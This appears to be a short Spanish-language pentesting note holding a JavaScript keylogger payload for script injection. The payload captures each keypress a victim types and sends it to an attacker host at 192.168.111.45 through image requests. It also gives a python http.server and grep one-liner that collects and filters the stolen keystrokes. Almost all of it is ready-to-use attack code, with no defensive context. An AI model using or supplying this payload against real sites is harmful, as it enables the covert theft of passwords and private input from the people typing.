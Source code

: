 //Este script registra las entradas del teclado de la victima y las envía a la máquina atacante

```js
<script>
	var k = ""
	document.onkeypress = function(e){
		e = e || window.event;
		k += e.key;
		var i = new Image();
		i.src = "http://192.168.111.45/" + k;
	};
</script>
```

*filtrar el output del keylogger*

	python3 -m http.server 80 2>&1 | grep -oP 'GET /\k[^.*\S]+'

Esto se pone a la escucha y filtra el output desde la palabra GET y se queda solo con lo que se introduce en el keylogger eliminando ruido
